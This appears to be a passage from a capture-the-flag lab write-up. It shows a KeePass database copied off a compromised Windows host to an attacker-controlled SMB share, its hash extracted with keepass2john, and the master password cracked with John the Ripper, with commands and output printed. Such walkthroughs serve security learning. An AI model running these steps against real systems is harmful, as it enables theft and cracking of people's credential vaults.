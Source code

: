 ```bash
----                -------------         ------ ----                                                                  
-a----         7/5/2025  10:53 AM             16 test.txt 

❯ cat test.txt 
───────┬───────────────────────────────────────────────────
       │ File: test.txt   <UTF-16LE>
───────┼───────────────────────────────────────────────────
   1   │ hello
───────┴───────────────────────────────────────────────────
```

I will copy the keepass file.

```bash
PS GetAllFromMe:\> cp C:\Users\kohsuke\Documents\CEH.kdbx .
PS GetAllFromMe:\> dir

    Directory: \\10.10.X.X\YourStuffIsMine

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx                                                              
-a----         7/5/2025  10:53 AM             16 test.txt  
```

So, we can crack it on our machine.

```bash
❯ keepass2john CEH.kdbx > hash
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

And crack it with `John` or `hashcat`.

```bash
❯ sudo john -w=/usr/share/wordlists/rockyou.txt hash                           
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**moonshine1**       (CEH)     
1g 0:00:00:23 DONE (2025-07-05 16:56) 0.04191g/s 2304p/s 2304c/s 2304C/s nando1..molly21
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
